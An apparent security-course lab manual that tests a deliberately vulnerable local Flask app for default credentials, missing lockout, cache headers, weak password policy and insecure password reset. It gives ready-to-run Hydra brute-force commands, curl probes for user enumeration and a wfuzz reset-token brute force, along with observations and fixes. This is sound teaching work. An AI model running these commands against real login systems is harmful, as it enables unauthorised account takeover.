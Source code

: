 
Authentication & Authorization Testing
Lab Manual

Experiment No: 1
Title: Security Testing of Authentication Mechanisms in
Web Applications
Objective: To identify and exploit common authentication
vulnerabilities including default credentials, weak lockout
mechanisms, browser cache issues, weak password policies,
and insecure password reset functionalities.

1. Lab Setup & Environment
Lab Application Details
● URL: http://localhost:5000
● Technology Stack: Flask, PostgreSQL, Docker
● Purpose: Deliberately vulnerable web application for security education

2. Experiment Procedures
TEST 1: Default Credentials Testing
Aim: To identify accessible accounts using common default credentials.
Procedure:

1. Create credential files:

echo -e "admin\nuser\ntest\ndemo\nguest\nroot" > users.txt
echo -e "admin\npassword\ntest\ndemo\n123456\nletmein" > passwords.txt
Execute Hydra attack:
bash
hydra -L users.txt -P passwords.txt -f -V -s 5000 localhost http-post-form
"/login:username=^USER^&password=^PASS^:F=Invalid"
Observations:
Username Password Status
admin admin ✅ Success
user password ✅ Success
test test ✅ Success
demo demo ✅ Success
Result: Multiple default credentials provide unauthorized access.

TEST 2: Weak Lockout Mechanism Testing
Aim: To test account lockout policies and brute force protection.
Procedure:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -W 1 -f -s 5000 localhost http-post-form
"/login:username=^USER^&password=^PASS^:F=locked"
Observations:
● Attempts: 1000+ rapid login attempts
● Lockout: No account lockout detected
● Rate Limiting: No throttling observed
● Duration: Continuous attack possible

Result: Weak lockout mechanism allows unlimited brute force attempts.

TEST 3: Browser Cache Weakness Testing
Aim: To identify improper cache controls on sensitive pages.
Procedure:
curl -s -I http://localhost:5000/profile | grep -i "cache-control\|pragma\|expires" || echo "NO
CACHE HEADERS FOUND"
Observations:
● Cache-Control Header: ❌ Absent
● Pragma Header: ❌ Absent
● Expires Header: ❌ Absent
● Security Headers: ❌ Not implemented
Manual Verification:
1. Login → Access /profile → Logout
2. Press browser back button → Cached content accessible
3. Check Developer Tools → No cache directives
Result: Sensitive pages lack cache control, exposing data after logout.

TEST 4: Weak Password Policy Testing
Aim: To evaluate password complexity requirements.
Procedure:
# Test weak password acceptance
curl -X POST http://localhost:5000/register -d
"username=weakuser1&email=weak1@test.com&password=1&confirm_password=1" -s | grep
-q "successful" && echo "WEAK PASSWORD ACCEPTED" || echo "WEAK PASSWORD
REJECTED"

Observations:
Password Length Accepted Example
1 character ✅ Yes "1"
2 characters ✅ Yes "ab"
3 characters ✅ Yes "abc"
Common passwords ✅ Yes "password"
Password Policy Analysis:
● Minimum Length: 3 characters ❌
● Complexity: No requirements ❌
● Dictionary Check: Not implemented ❌
Result: Extremely weak password policy allows easily guessable
passwords.

TEST 5: Weak Password Reset Functionality
Aim: To identify vulnerabilities in password recovery mechanism.
Procedure:
# Test user enumeration
curl -X POST http://localhost:5000/reset_password -d "email=nonexistent@test.com" -s | grep
-q "No account found" && echo "USER ENUMERATION POSSIBLE" || echo "NO
ENUMERATION"
# Test token security
wfuzz -c -z range,00000000-99999999 --hc 404
"http://localhost:5000/reset_password_confirm/FUZZ"
Observations:
A. Information Disclosure:
● Response differentiation for valid/invalid emails

● Error: "No account found with that email address"
B. Reset Token Analysis:
● Token exposed in response ❌
● No token expiration ❌
● Predictable token pattern ❌
C. Security Flaws:
● No rate limiting on reset requests
● Tokens displayed in clear text
● No account lockout for reset attempts
Result: Password reset mechanism vulnerable to enumeration and token
attacks.

3. Vulnerability Summary
Vulnerability Severity Impact Exploitation Complexity

Default Credentials High Full system compromise Low

Weak Lockout High Account takeover Low
Browser Cache Issues Medium Information disclosure Low

Weak Password Policy Medium Credential cracking Low
Insecure Password Reset High Account takeover Medium

4. Security Recommendations
Immediate Actions:
1. Change all default credentials

2. Implement account lockout after 5 failed attempts
3. Add proper cache control headers
4. Enforce strong password policy (min 8 chars, complexity)
5. Secure password reset with time-limited tokens
Technical Controls:
● Implement HTTPS
● Add security headers (HSTS, CSP)
● Use secure session management
● Regular security audits

5. Conclusion
The lab successfully demonstrated five critical authentication vulnerabilities commonly found in
web applications. Each vulnerability was exploitable using standard Kali Linux tools, highlighting
the importance of robust authentication mechanisms. The experiment provided hands-on
experience in both identifying and understanding the impact of these security flaws.
